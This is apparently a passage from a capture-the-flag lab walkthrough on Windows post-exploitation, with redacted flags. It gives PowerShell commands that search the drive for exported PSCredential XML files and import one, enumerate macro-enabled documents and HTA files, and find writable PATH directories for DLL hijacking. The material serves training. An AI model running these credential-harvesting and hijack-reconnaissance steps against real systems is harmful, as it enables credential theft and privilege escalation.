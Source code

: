 ### Step 7.2: PowerShell Credentials

```powershell
# Find exported credentials
Get-ChildItem -Path C:\ -Recurse -Filter "*.xml" -ErrorAction SilentlyContinue | Select-String -Pattern "PSCredential"

# Common locations
dir C:\Users\*\Documents\*cred*.xml
dir C:\Scripts\*cred*.xml
dir C:\Automation\*cred*.xml

# If found
$cred = Import-Clixml C:\Users\Public\Documents\Credentials\admin.xml
# Check the XML directly for comments
type C:\Users\Public\Documents\Credentials\admin.xml
```

**FLAG{P***************9}** - In credential XML

### Step 7.3: Document Analysis

```powershell
# Find Office documents
Get-ChildItem -Path C:\Users -Recurse -Include "*.doc*","*.xls*","*.ppt*" -ErrorAction SilentlyContinue

# Macro-enabled documents
Get-ChildItem -Path C:\ -Recurse -Include "*.docm","*.xlsm","*.pptm" -ErrorAction SilentlyContinue

# Check Important folder
dir C:\Users\Public\Documents\Important\
type C:\Users\Public\Documents\Important\Invoice.docm
```

**FLAG{G***************8}** - In macro document

### Step 7.4: HTA Files

```powershell
# Find HTA files
Get-ChildItem -Path C:\ -Recurse -Filter "*.hta" -ErrorAction SilentlyContinue

# Check content
type C:\Users\Public\Documents\Important\portal.hta
Select-String -Path C:\Users\Public\Documents\Important\portal.hta -Pattern "<!--.*-->"
```

**FLAG{P***************5}** - In HTA comment

### Step 7.5: DLL Hijacking

```powershell
# Check PATH variable
$env:Path -split ';'

# Find writable directories in PATH
foreach ($dir in $env:Path -split ';') {
    if (Test-Path $dir) {
        $acl = Get-Acl $dir
        $acl.Access | Where-Object {$_.IdentityReference -match "Users"}
    }
}

# Check custom directory
icacls C:\ProgramData\Custom
type C:\ProgramData\Custom\readme.txt
```